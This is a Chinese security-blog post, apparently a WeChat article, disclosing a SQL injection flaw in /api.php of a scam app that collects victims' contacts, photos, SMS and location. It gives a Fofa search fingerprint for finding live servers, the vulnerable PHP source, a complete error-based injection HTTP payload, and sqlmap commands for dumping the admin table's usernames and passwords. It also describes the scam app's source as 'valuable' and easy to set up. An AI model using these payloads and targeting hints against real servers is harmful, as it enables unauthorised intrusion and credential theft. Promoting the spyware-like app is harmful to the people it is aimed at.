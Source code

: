 #  某新版诈骗双端APP通讯录存在前台SQL注入漏洞  
原创 Mstir  星悦安全   2025-07-12 06:19  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**2025 获取双端txl通讯录、相册、短信、定位、已安装APP信息，代码无加密，搭建简单，安卓端是原生纯源码，iOS端是uniapp纯源码，也是有价值的，很多人都在找能用的.**  
  
**Fofa指纹 : "由Thinkphp5提供高性能框架开发而生！"**  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREk6pMgmCibhxuVWsibfnrDdybRGkCcWszWmGHMgOOTBAf2f8S5viaKibPBA/640?wx_fmt=other&from=appmsg "")  
  
看见这后台就懂了，某些ZP的用的  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREd8El63icYY7Xx7nK3n3xGv87YTsEaia3xYJSqOUJt3Zd3trLLpvnx9hw/640?wx_fmt=other&from=appmsg "")  
  
框架:ThinkPHP 5.0.24 Debug:true  
##   
## 0x01 漏洞分析&复现  
  
**位于 /api.php 中，通过GET传入ID参数，直接进入SQL查询字句，且未加过滤，导致漏洞产生，其中需POST传入img参数，实际上传的文件后缀被写死.**  
  
****  
```
<?phpheader('Access-Control-Allow-Origin:*');header('Content-Type:text/plain;charset=utf-8');require('conn.php');    function imgbc($image)    {        $imageName = "25220_".date("His",time())."_".rand(1111,9999).'.png';        if (strstr($image,",")){          $image = explode(',',$image);        $image = $image[1];        }        $path = "./uploads/".date("Ymd",time());        if (!is_dir($path)){ //判断目录是否存在 不存在就创建          mkdir($path,0777,true);        }        $imageSrc= $path."/". $imageName; //图片名字        $r = file_put_contents($imageSrc, base64_decode($image));//返回的是字节数        return"/uploads/".date("Ymd",time())."/". $imageName;    }    if(isset($_POST['img'])){        $img = imgbc('data:image/jpg;base64,'.$_POST['img']);        $userid = $_GET['id'];        $sqlUser = "select * from app_user where name = '$userid'";    $resultUser = mysqli_query($conn,$sqlUser);    if ($resultUser->num_rows > 0) {        $row = $resultUser->fetch_assoc();        $user_id = $row['id'];                $sql = "INSERT INTO app_xiangce VALUES (null, '".$user_id."',null,'".$img."', '".time()."')";             if ($conn->query($sql) == TRUE) {            echo"成功";        } else {            echo"Error: " . $sql . "<br>" . $conn->error;        }    }else{         echo"Error: " . $sql . "<br>" . $conn->error;    }}
```  
  
  
**Payload（爆库）:**  
  
```
POST /api.php?id='+AND+EXTRACTVALUE(6165,CONCAT(0x5c,(SELECT+(USER()))))--+KrBJ HTTP/1.1Host: 192.168.140.128Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Content-Type: application/x-www-form-urlencodedAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Length: 5img=1
```  
  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREEiaXtZNLcCaNFlZRrTU2cgf1VZ7GLeITwWGfgAbrQmmeiadQibLfjDaGQ/640?wx_fmt=other&from=appmsg "")  
  
**Python sqlmap.py -r a.txt --level=3 --dbms=mysql**  
  
****  
****  
****  
**-T app_admin -C name,password --dump   爆出管理员表的账密**  
## 0x02 关注公众号  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**关注公众号，获取最新安全文章!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
